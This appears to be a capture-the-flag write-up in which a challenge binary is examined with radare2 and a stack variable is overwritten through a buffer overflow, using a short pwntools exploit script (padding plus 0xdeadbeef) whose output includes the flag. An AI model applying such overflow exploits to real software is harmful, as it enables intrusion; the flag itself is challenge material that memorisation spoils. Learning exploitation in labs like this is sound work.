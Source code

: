 1. use `file <file>` to take a look. It's ELF file.

```
$ file pass
pass: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, 
interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=abcfeb57f2bcc8ad99fcba05bb6a05830c5e36d0, 
for GNU/Linux 3.2.0, not stripped
```

2. use `r2 <executable file>` to see the flow of the program.
  a. `aa`, `afl` to see the function of the binary.
  b. `s <function>` seek to the function.
  b. `VV` to see the function(we just set) flow in a graphic way.
  
3. by r2 VV command, we can see that var_20h is put at rbp-0x20, var_4h is at rbp-0x4.
![image](https://user-images.githubusercontent.com/66505819/139246455-3a32ff1c-f05b-4d58-b7a5-2976cc7d66b0.png)

4. keep looking, we find that the program store number 1234(0x4d2) at var_4h. And the program will compare it with 0xdeadbeef.
   if they are the same, program jump to Door open and we'll find the flag, or we fail.
![image](https://user-images.githubusercontent.com/66505819/139246670-c5619595-d225-4ea8-89e0-e1752fe65339.png)
![image](https://user-images.githubusercontent.com/66505819/139246794-227723d7-fe4c-4f59-92e5-b6c59ef32075.png)

5. Our input will be put at var_20h, and we need to change the data that store at var_4h, using boffer overflow. So, we have the script below.
```
from pwn import *

r = process('./pass')
#r = remote('120.114.62.211', 6126)

payload = b'A'*28

r.sendline(payload + p64(0xdeadbeef))  #if 64 bit ,or 32bit use p32

r.interactive()
```

6. run the script and get the flag.
```
$ python3 exploit.py
[+] Starting local process './pass': pid 162
[*] Switching to interactive mode
Billy left his key in the locked room.
However, he forgot the token of the room.
Do you know what's the key?Door open. OwO
FLAG{xtnntfhzflpttvxvzzbfjfnxbjvrzxdfvzlvhpt}
hello hacker!
[*] Process './pass' stopped with exit code 0 (pid 162)
[*] Got EOF while reading in interactive
$
```
the flag is: FLAG{xtnntfhzflpttvxvzzbfjfnxbjvrzxdfvzlvhpt}
